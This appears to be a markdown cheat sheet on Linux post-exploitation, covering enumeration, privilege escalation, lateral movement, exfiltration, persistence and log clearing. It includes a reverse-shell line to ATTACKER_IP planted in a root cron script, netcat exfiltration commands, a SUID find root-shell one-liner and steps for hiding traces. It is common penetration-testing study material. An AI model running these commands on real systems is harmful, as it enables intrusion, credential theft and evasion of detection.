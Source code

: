# Linux Post-Exploitation Techniques

Once initial access is gained on a Linux system, the goal shifts to maintaining access, escalating privileges, and gathering valuable information. This document outlines common techniques and tools used in the post-exploitation phase.

## 1. Initial System Enumeration

Before attempting privilege escalation, it's crucial to understand the system's configuration, running processes, and user privileges.

-   **System Information**: `uname -a`, `cat /etc/os-release`, `hostname`, `df -h`, `mount`
-   **User Information**: `whoami`, `id`, `cat /etc/passwd`, `cat /etc/shadow` (if accessible), `sudo -l`
-   **Network Information**: `ip a`, `netstat -tulnp`, `ss -tulnp`, `cat /etc/resolv.conf`
-   **Running Processes**: `ps aux`, `top`, `htop`
-   **Installed Software**: `dpkg -l` (Debian/Ubuntu), `rpm -qa` (RedHat/CentOS)
-   **Cron Jobs**: `ls -la /etc/cron*`, `cat /etc/crontab`, `crontab -l`
-   **Services**: `systemctl list-units --type=service`, `service --status-all`
-   **Environment Variables**: `env`

## 2. Privilege Escalation

The primary goal is to gain root access. Common methods include:

### 2.1. Kernel Exploits

Exploiting vulnerabilities in the Linux kernel. Requires identifying the kernel version and searching for known exploits.

-   **Identify Kernel Version**: `uname -r`
-   **Search for Exploits**: `searchsploit linux <kernel_version>`, Exploit-DB, CVE databases.
-   **Example (Dirty Cow - CVE-2016-5195)**:
    ```bash
    # Check if vulnerable (kernel < 4.8.0)
    # Download and compile exploit (e.g., from Exploit-DB)
    gcc -pthread dirty.c -o dirty -lcrypt
    ./dirty
    ```

### 2.2. SUID/SGID Binaries

Binaries with SUID (Set User ID) or SGID (Set Group ID) permissions run with the privileges of their owner/group. Misconfigured SUID/SGID binaries can be exploited.

-   **Find SUID/SGID Binaries**: 
    ```bash
    find / -perm -4000 -o -perm -2000 2>/dev/null
    ```
-   **Check GTFOBins**: A curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
    -   `sudo`, `find`, `nmap`, `vi`, `less`, `more`, `awk`, `nano`, `cp`, `mv`, `tar`, `zip`, `unzip`, `base64`, `chown`, `chmod`, `diff`, `env`, `expand`, `ftp`, `gdb`, `git`, `make`, `mount`, `perl`, `php`, `python`, `ruby`, `ssh`, `strace`, `systemctl`, `wget`, `xxd`, `zsh`.
-   **Example (find SUID exploit)**:
    ```bash
    # If 'find' has SUID bit
    find . -exec /bin/sh -p \; -quit
    ```

### 2.3. Cron Jobs

Scheduled tasks that run at specific intervals. Insecurely configured cron jobs can be exploited if they run scripts with root privileges that are writable by a low-privileged user.

-   **Check Writable Cron Files**: `find /etc/cron* -writable 2>/dev/null`
-   **Check Script Permissions**: Examine scripts executed by cron jobs for weak permissions.
-   **Example (Writable script)**:
    ```bash
    # If a script run by root cron is writable by current user
    echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/writable_script.sh
    ```

### 2.4. Weak File Permissions

Misconfigured file and directory permissions can allow a low-privileged user to modify sensitive files or execute arbitrary code.

-   **Search for Writable Files/Directories**: `find / -writable -type f 2>/dev/null`, `find / -writable -type d 2>/dev/null`
-   **Sensitive Files**: `/etc/passwd`, `/etc/shadow`, `/etc/sudoers`, SSH keys (`~/.ssh/id_rsa`)

### 2.5. Exploiting Services

Running services might have misconfigurations or vulnerabilities that can lead to privilege escalation.

-   **Database Services**: Weak credentials, insecure configurations (e.g., MySQL UDF injection).
-   **Web Servers**: Outdated versions, misconfigurations.
-   **NFS/SMB Shares**: Misconfigured `no_root_squash` or writable shares.

### 2.6. Password Reuse / Hash Cracking

If password hashes are obtained (e.g., from `/etc/shadow` or `SAM` files), attempt to crack them using tools like John the Ripper or Hashcat. Cracked passwords can be reused for other accounts.

## 3. Lateral Movement

Expanding access to other systems within the network.

-   **SSH Keys**: Look for SSH keys (`~/.ssh/id_rsa`, `/root/.ssh/id_rsa`) that might allow access to other machines.
-   **Network Shares**: Mount and explore NFS/SMB shares for sensitive data or further access.
-   **Internal Network Scanning**: Use tools like `nmap` (if available or transferred) or `netcat` to scan internal networks from the compromised host.
-   **Proxying Traffic**: Set up SOCKS proxies (e.g., with `ssh -D`) to route traffic through the compromised host to internal networks.

## 4. Data Exfiltration

Extracting sensitive data from the compromised system.

-   **Direct Transfer**: `scp`, `sftp`, `wget`, `curl`.
-   **Netcat**: `nc -lvnp 4444 > exfiltrated_data.zip` (on attacker) and `nc ATTACKER_IP 4444 < sensitive_file.zip` (on target).
-   **DNS Exfiltration**: Encoding data into DNS queries.
-   **HTTP/HTTPS Tunneling**: Using tools like `chisel` or `iodine`.

## 5. Persistence

Maintaining access to the system even after reboots or security measures are implemented.

-   **Cron Jobs**: Add malicious entries to `/etc/crontab` or user-specific crontabs.
-   **Startup Scripts**: Modify `/etc/rc.local`, `/etc/init.d/`, `systemd` units.
-   **SSH Authorized Keys**: Add attacker's public key to `~/.ssh/authorized_keys`.
-   **Rootkits**: Install stealthy backdoors.
-   **Malicious Binaries**: Replace legitimate binaries with malicious ones (e.g., `bash`, `login`).

## 6. Cleanup

Removing traces of the intrusion to avoid detection.

-   **Clear Logs**: `/var/log/auth.log`, `/var/log/syslog`, `~/.bash_history`.
-   **Remove Malicious Files**: Delete any transferred exploits or scripts.
-   **Restore Modified Files**: Revert changes made to configuration files.
